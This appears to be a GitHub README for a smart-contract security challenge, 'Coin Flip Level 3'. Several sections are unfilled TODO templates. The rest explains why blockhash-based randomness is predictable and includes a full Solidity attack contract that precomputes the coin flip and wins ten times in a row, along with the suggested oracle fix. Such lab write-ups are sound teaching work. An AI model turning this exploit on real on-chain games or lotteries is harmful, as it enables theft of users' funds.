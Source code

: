 # Coin Flip Challenge - Level 3 🚧 Update In Progress 🏗

<p align="left"> <img src="https://komarev.com/ghpvc/?username=Level3&label=Repository%20views&color=0e75b6&style=flat" alt="wrappedusername" /> </p>

```yml
This smart contract has a vulnerability, because:
```

- TODO

```Solidity

```

## 🆘 The victim contract in detail

```yml
The victim contract:
```
- TODO

```Solidity

```

## ⚠️ The vulnerability in detail

```yml
The vulnerability:
```

- TODO

```JavaScript

```

- TODO

```Solidity

```

## 💥 The attack in detail

```yml
The attack:
```

- TODO

```JavaScript

```
- TODO

```Solidity

```

## 🩺 How can we fix this vulnerablity in the victim contract?

- TODO

```Solidity

```

```yml
This smart contract has a vulnerability, it's use of the public source of randomness makes it vulnerable because:
```
- the ethereum blockchain is fully transparent and everything is public and can be viewed,

```Solidity
/**  
* @notice Blockhash and block.number are globally accessible variables available to everyone, 
* this is the source of randomness and can be exploited in the attack to calculate the correct side of the coin flip.
* The best practice in this case would be to introduce a source of randomness into a contract with a 
* decentralized oracle to compute random numbers, because there is no native way to generate random numbers in 
* Solidity and everything is publicly visible in the contract.
*/
/// @notice The attack contract can use the same process as the victim contract to find the value for the flip.
function flip(bool _guess) public returns (bool) {
  uint256 blockValue = uint256(blockhash(block.number.sub(1))); 
  uint256 coinFlip = blockValue.div(FACTOR); 
  bool side = coinFlip == 1 ? true : false;
```
  - after the attack contract finds the value for the flip it is assigned to the call to the flip function of the victim contract,
    - the player calls this flip function 10 times in a row to win.

```Solidity
victimContract.flip(side);
```

## 💥 The attack contract in detail:

```yml
The attack contract starts with importing the victim contract:
```
- this will be used in the attack contract's constructor,

```Solidity
// SPDX-License-Identifier: MIT
// fixed pragma
pragma solidity 0.5.0; 

import "./CoinFlip.sol";
// outdated import for SafeMath, pragma 0.8.0 has SafeMath included in version
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v2.5.0/contracts/math/SafeMath.sol";

/// @title attack contract, calculates correct side 10 times in a row
/// @author Web3 Blockchain Developer 
contract CoinFlipAttack {
    /** 
    * @notice Using for directive, using imported SafeMath functions from openzeppelin,
    * for unit256 to prevent overflow and underflow attacks. 
    */
    using SafeMath for uint256;
```
- the public state variable victimContract references the victim contract as CoinFlip and will be assigned by the player when the attack contract is deployed using the constructor,
- the attack contract also uses the state variable FACTOR from the victim contract,
- the constructor receives the victim contract address from the player and references the victim contract with CoinFlip(_victimContractAddr), this address is assigned as the public state variable victimContract,

```Solidity
/// @notice public state variable assigned in constructor
    CoinFlip public victimContract; 
    
    // state variable assigned in function flip()
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    /** 
    * @notice victim address belonging to CoinFlip assigned as public state variable victimContract 
    * during deployment of attack contract 
    */
    constructor(address _victimContractAddr) public {
        victimContract = CoinFlip(_victimContractAddr);
    }
```
- finally the attack begins,
- after the attack contract finds the value for the flip it is assigned to the call to the flip function of the victim contract,
    - the player calls this flip function 10 times in a row to win.

```Solidity

/**  
* @notice Blockhash and block.number are globally accessible variables available to everyone, 
* this is the source of randomness and can be exploited in the attack to calculate the correct side of the coin flip.
* The best practice in this case would be to introduce a source of randomness into a contract with a 
* decentralized oracle to compute random numbers, because there is no native way to generate random numbers in 
* Solidity and everything is publicly visible in the contract.
*/
/// @notice The attack contract can use the same process as the victim contract to find the value for the flip.
function flip() public returns(bool) {
  uint256 blockValue = uint256(blockhash(block.number.sub(1)));
  
  uint256 coinFlip = blockValue.div(FACTOR); 
        
  bool side = coinFlip == 1 ? true : false;

  victimContract.flip(side);
    }
}

```
## 💥 The attack contract locked and loaded in REMIX IDE

```yml
Fire away at that flip button, ten times:
```
- lower left of the image, under the Deployed Contracts section, orange button labeled flip.

<p align="left" >
<img width="506" height="512" src="https://user-images.githubusercontent.com/104662990/199078205-0c19814b-c867-46bf-8b1e-9404585037af.png">
</P>



    
    
